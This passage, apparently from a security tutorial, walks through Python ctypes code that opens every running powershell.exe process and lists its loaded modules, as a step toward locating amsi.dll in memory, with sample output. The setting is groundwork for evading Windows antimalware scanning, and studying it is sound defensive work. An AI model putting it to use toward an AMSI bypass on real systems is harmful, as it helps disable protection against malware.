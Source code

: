 ### Get the loaded modules of the powershell.exe processes

Now that we have a handle to a `powershell.exe` process,
we can perform kernel-controlled actions
using the handle interface.
In our case,
we want to retrieve the addresses of the loaded modules
to find where `amsi.dll` is loaded
in the memory space of the process.

One may initially think of `EnumerateProcessModules()`.
Let's check that with the following code:

```python
import psutil
from ctypes import *
from ctypes import wintypes

KERNEL32 = windll.kernel32
PSAPI = windll.PSAPI

PROCESS_ACCESS = (
    0x000F0000 |        # STANDARD_RIGHTS_REQUIRED
    0x00100000 |        # SYNCHRONIZE
    0xFFFF
)

def getPowershellPids():
    ppids = [pid for pid in psutil.pids() if psutil.Process(pid).name() == 'powershell.exe']
    return ppids

for pid in getPowershellPids():
    process_handle = KERNEL32.OpenProcess(PROCESS_ACCESS, False, pid)
    if not process_handle:
        continue
    print(f'[+] Got process handle of PID powershell at {pid}: {hex(process_handle)}')

    lphModule = (wintypes.HMODULE * 128)()
    needed = wintypes.LPDWORD()

    PSAPI.EnumProcessModules(process_handle, lphModule, len(lphModule), byref(needed))
    modules = [module for module in lphModule if module]

    KERNEL32.GetModuleFileNameA.argtypes = [c_void_p, c_char_p, c_ulong]
    for module in modules:
        cPath = c_buffer(128)
        KERNEL32.GetModuleFileNameA(module, cPath, sizeof(cPath))
        print(cPath.value.decode())
```

And try it:

```powershell
PS C:\Users\aroldan> python3 .\enummodules.py
[+] Got process handle of PID powershell at 9936: 0x430
C:\WINDOWS\SYSTEM32\ntdll.dll
C:\WINDOWS\System32\KERNEL32.DLL
C:\WINDOWS\System32\KERNELBASE.dll
C:\WINDOWS\System32\msvcrt.dll
C:\WINDOWS\System32\OLEAUT32.dll
C:\WINDOWS\System32\msvcp_win.dll
C:\WINDOWS\System32\ucrtbase.dll
C:\WINDOWS\System32\combase.dll
C:\WINDOWS\System32\USER32.dll
C:\WINDOWS\System32\RPCRT4.dll
C:\WINDOWS\System32\win32u.dll
```